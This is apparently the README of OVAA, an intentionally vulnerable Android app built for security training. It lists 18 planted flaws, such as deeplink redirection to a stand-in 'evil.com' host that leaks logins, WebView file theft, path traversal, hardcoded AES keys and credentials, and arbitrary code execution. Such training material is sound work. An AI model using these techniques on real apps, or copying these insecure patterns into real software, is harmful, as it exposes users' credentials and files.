 ## Description
OVAA (Oversecured Vulnerable Android App) is an Android app that aggregates all the platform's known and popular security vulnerabilities.
rr
## List of vulnerabilities
This section only includes the list of vulnerabilities, without a detailed description or proof of concept. Examples from OVAA will receive detailed examination and analysis on [our blog](https://blog.oversecured.com/).
ff
1. Installation of an arbitrary `login_url` via deeplink `oversecured://ovaa/login?url=http://evil.com/`. Leads to the user's user name and password being leaked when they log in.
2. Obtaining access to arbitrary content providers (not exported, but with the attribute `android:grantUriPermissions="true"`) via deeplink `oversecured://ovaa/grant_uri_permissions`. The attacker's app needs to process `oversecured.ovaa.action.GRANT_PERMISSIONS` and pass intent to `setResult(code, intent)` with flags such as `Intent.FLAG_GRANT_READ_URI_PERMISSION` and the URI of the content provider.
3. Vulnerable host validation when processing deeplink `oversecured://ovaa/webview?url=...`.
4. Opening arbitrary URLs via deeplink `oversecured://ovaa/webview?url=http://evilexample.com`. An attacker can use the vulnerable WebView setting `WebSettings.setAllowFileAccessFromFileURLs(true)` in the `WebViewActivity.java` file to steal arbitrary files by sending them XHR requests and obtaining their content.
5. Access to arbitrary activities and acquiring access to arbitrary content providers in `LoginActivity` by supplying an arbitrary Intent object to `redirect_intent`.
6. Theft of arbitrary files in `MainActivity` by intercepting an activity launch from `Intent.ACTION_PICK` and passing the URI to any file as data.
7. Insecure broadcast to `MainActivity` containing credentials. The attacker can register a broadcast receiver with action `oversecured.ovaa.action.UNPROTECTED_CREDENTIALS_DATA` and obtain the user's data.
8. Insecure activity launch in `MainActivity` with action `oversecured.ovaa.action.WEBVIEW`, containing the user's encrypted data in the query parameter `token`.
9. Deletion of arbitrary files via the insecure `DeleteFilesSerializable` deserialization object.
10. Memory corruption via the `MemoryCorruptionParcelable` object.
11. Memory corruption via the `MemoryCorruptionSerializable` object.
12. Obtaining read/write access to arbitrary files in `TheftOverwriteProvider` via path-traversal in the value `uri.getLastPathSegment()`.
13. Obtaining access to app logs via `InsecureLoggerService`. Leak of credentials in `LoginActivity` `Log.d("ovaa", "Processing " + loginData)`.
14. Use of the hardcoded AES key in `WeakCrypto`.
15. Arbitrary Code Execution in `OversecuredApplication` by launching code from third-party apps with no security checks.
16. Use of very wide file sharing declaration for `oversecured.ovaa.fileprovider` content provider in `root` entry.
17. Hardcoded credentials to a dev environment endpoint in `strings.xml` in `test_url` entry.
18. Arbitrary code execution via a DEX library located in a world-readable/writable directory.

---------------------------------------
*Licensed under the Simplified BSD License*

*Copyright (c) 2023, Oversecured Inc*

https://oversecured.com/

